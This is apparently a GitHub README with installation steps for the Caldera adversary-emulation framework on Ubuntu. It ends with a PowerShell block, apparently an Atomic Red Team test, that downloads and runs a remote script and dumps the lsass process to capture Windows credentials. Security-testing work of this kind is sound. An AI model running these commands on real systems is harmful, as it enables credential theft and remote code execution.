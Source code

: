 This folder conatins Caldera Installation Steps on Ubuntu and Related Documents.


Caldera Installation Steps:
1. Download the filed default.yml and install_caldera.sh file from github
2. Change the permission of file  install_caldera.sh
        chmod +x install_caldera.sh
3. run install_caldera.shc
        ./install_caldera.sh
4. Create screen and run caldera build in caldera directory 
         screen -S caldera_install
         python3 server.py --insecure --build
5. Access  http://localhost:8888 in Chrome browser. Credentials are there in default.yml file.

Installation Document: 
https://caldera.readthedocs.io/en/latest/Installing-Caldera.html


YouTube Caldera Adversary Emulation:
https://www.youtube.com/watch?v=EIHLXWnK1Dw&t=4378s




[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (New-Object Net.WebClient).DownloadString('https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1'); get-process lsass | Out-Minidump



Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
